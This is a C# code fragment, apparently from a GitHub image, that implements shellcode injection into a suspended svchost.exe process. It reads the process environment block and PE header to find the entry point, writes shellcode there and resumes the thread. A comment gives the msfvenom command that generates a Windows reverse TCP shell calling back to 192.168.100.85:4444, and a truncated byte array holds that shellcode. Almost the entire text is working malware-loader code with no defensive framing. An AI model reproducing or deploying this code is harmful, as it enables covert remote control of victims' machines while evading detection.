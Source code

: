```csharp

        // 1 -- Create the target process in a suspended state

        STARTUPINFO si = new STARTUPINFO();
        PROCESS_INFORMATION pi;
        SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();

        bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);


            // 2 -- Get the address of the Process Environment Block

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
        uint tmp = 0;
        IntPtr hProcess = pi.hProcess;
        ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size* 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);



            // 3 -- Extract the Image Base Address from the PEB

        byte[] addrBuf = new byte[IntPtr.Size];
        IntPtr nRead = IntPtr.Zero;
        ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

        IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));


            // 4 -- Read the PE structure to find the EntryPoint address

        byte[] data = new byte[0x200];
        ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

        uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
        uint opthdr = e_lfanew_offset + 0x28;
        uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
        IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

        IntPtr entryPoint = IntPtr.Zero;


            // 5 -- Write shellcode at EntryPoint

            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
...                                    0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

        WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
        ResumeThread(pi.hThread);

    }

    public void RunProcess(string path)
    {
        Process.Start(path);
    }
}

```